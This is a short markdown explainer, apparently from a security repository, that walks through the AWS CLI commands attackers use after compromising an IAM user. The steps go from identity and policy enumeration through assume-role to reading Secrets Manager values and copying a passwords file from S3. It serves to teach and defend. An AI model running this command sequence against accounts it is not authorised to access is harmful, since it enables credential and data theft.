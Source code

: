 # AWS INITIAL ACCESS AND ENUMERATION

When threat actors compromise an AWS user, they often follow a systematic process of enumeration and lateral movement to expand their access and gather sensitive information.  
Here's a breakdown of how attackers perform these activities using various AWS CLI commands, usually these operation are automated via the use of tools like [*pacu*](https://github.com/RhinoSecurityLabs/pacu).   
The first step an attacker takes is to identify the compromised IAM user and account details:
```sh
aws sts get-caller-identity
```  


Next, attackers gather more details about the IAM user (creation date, tags, and other metadata):  
```sh
aws iam get-user --user-name <username>
```  


To understand the user's permissions, attackers check for group memberships and attached policies:  
```sh
aws iam list-groups-for-user --user-name <username>
aws iam list-attached-user-policies --user-name <username>
aws iam list-user-policies --user-name <username>
```  

Attackers need to understand the permissions granted by these policies:  
```sh
aws iam list-policy-versions --policy-arn <policy-arn>
aws iam get-policy-version --policy-arn <policy-arn> --version-id <version-id>
```

After understanding the permissions, attackers can move laterally by assuming roles or accessing other resources:  
```sh
aws iam get-role --role-name <role-name>
aws sts assume-role --role-arn <role-arn> --role-session-name <session-name>
```
With new permissions granted, attackers can access sensitive data like S3 bucket contents, EC2 instances, or secrets stored in Secrets Manager:
```sh
aws ec2 describe-instances
aws secretsmanager list-secrets
aws secretsmanager get-secret-value --secret-id <secret-id>
aws s3 ls s3://<bucket-name>
aws s3 cp s3://<bucket-name>/passwords.txt
```  



![](./images/aws-enumeration.jpeg)  